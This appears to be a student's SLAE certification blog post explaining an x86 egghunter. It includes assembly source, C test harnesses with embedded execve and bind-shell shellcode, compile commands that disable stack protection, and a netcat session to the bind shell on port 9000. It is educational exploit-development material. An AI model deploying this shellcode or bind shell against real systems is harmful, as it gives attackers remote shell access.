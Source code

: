```yaml
---
title: SLAE - Assignment 3 - Egghunter 
author: fwinsnes
date: 2021-01-16 13:44:00 +0800
categories: [SLAE]
tags: [assembly, shellcoding]
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE certification. Today we are going to have a close 
look at Egghunters. 

An Egghunter is a form of malware, commonly used during Exploit-Development sessions in order to process bigger shellcode when there is low space available. The process is quite 
simple, this will search for a specific tag within the memory. When found, the flow will be passed upon the instructions following the tag, executing the original shellcode. 

The third assignment from the seven requires the creation of an Egghunter through the Assembly language, and converting such into [shellcode](https://es.wikipedia.org/wiki/Shellcode). Moreover, it is required to test such.

##### Methods

In order to create an Egghunter shellcode, there are several paths. However, as the time goes on, newer techniques are implemented that make shellcoding easier. I have chosen to 
cover a modern method which is fast, and tends to be very small regarding size. This method obeys the following procedure:

+ The tag is saved on ESI
+ EBX is incremented
+ The value of EBX is compared with ESI. If positive, this should set the Zero Flag (ZF)
+ Repeat this process through a jump if not zero (JNZ) condition.
+ Jump into EBX.

It is quite important to note that the tag does not contain an opocode that could interfere with our egghunter, such as an INC ESI (46), or DEC EBX (4B). The chosen tag is 
45474547 (GEGE).

Code:

```term
global _start

_start:

      mov esi, 0x45474547       ; Moves the tag GEGE into ESI

main:

      inc ebx                   ; Increments EBX for comparison.
      cmp dword [ebx], esi      ; Compares EBX with ESI, that contains the tag. If they contain the same value, set the Zero flag (ZF).
      jne main                  ; Jumps to main to repeat the loop until the Zero flag (ZF) is set.
      push ebx                  ; Pushes the value of EBX into the stack.
      ret                       ; Pops it into the EIP.
```

Let's test this egghunter within the C format:

```term
#include<stdio.h>
#include<string.h>

unsigned char egg[] = \
"\xbe\x47\x45\x47\x45\x43\x39\x33\x75\xfb\x53\xc3";

unsigned char code[] = \
"\x47\x45\x47\x45"
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{

  printf("Shellcode size:  %d\n", strlen(code));
  printf("Egg size:  %d\n", strlen(egg));

        int (*ret)() = (int(*)())egg;

        ret();

}
```

#### EndGame

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ gcc egghunter.c -o egghunter -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ ./egghunter 
Shellcode size:  26
Egg size:  12
$
```

Furthermore, there is an additional detail that the egghunter should be configurable for different payloads. As the only requirement is to leave the tag at the start of the 
payload, configuration for different shellcodes should be easy.

Let's test this egghunter within the C format once again. I will now use the bind shell developed during [this](https://whitecr0wz.github.io/posts/SLAE-Bind/) post.

```term
#include<stdio.h>
#include<string.h>

unsigned char egg[] = \
"\xbe\x47\x45\x47\x45\x43\x39\x33\x75\xfb\x53\xc3";

unsigned char code[] = \
"\x47\x45\x47\x45"
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\x68\x67\x01\x66\x58\xb3\x02\xb1\x01\x52\xcd\x80\x89\xc6\x66\x68\x69\x01\x66\x58\x89\xf3\x52\x52\x66\x68\x23\x28\x66\x6a\x02\x89\xe1
\xb2\x10\xcd\x80\x66\x68\x6b\x01\x66\x58\x89\xf3\x31\xc9\x51\xcd\x80\x66\x68\x6c\x01\x66\x58\x89\xf3\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x66\x6a\x3f\x66\x58\x89\xf3\
xfe\xc9\xcd\x80\x75\xf3\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\x66\x6a\x0b\x66\x58\xcd\x80";

main()
{

  printf("Shellcode size:  %d\n", strlen(code));
  printf("Egg size:  %d\n", strlen(egg));

        int (*ret)() = (int(*)())egg;

        ret();

}
```

#### EndGame #2

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ gcc egghunter.c -o egghunter -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ ./egghunter 
Shellcode size:  131
Egg size:  12

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@whitecr0wz:~# rlwrap nc 192.168.100.200 9000 -v 
192.168.100.200: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.100.200] 9000 (?) open
python3 -c 'import pty;pty.spawn("/bin/bash")'
whitecr0wz@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_3$ id && whoami 
<wz/assembly/assignments/Assignment_3$ id && whoami                 
uid=1001(whitecr0wz) gid=1001(whitecr0wz) groups=1001(whitecr0wz)
whitecr0wz
whitecr0wz@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_3$
```

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/Assignment_3).
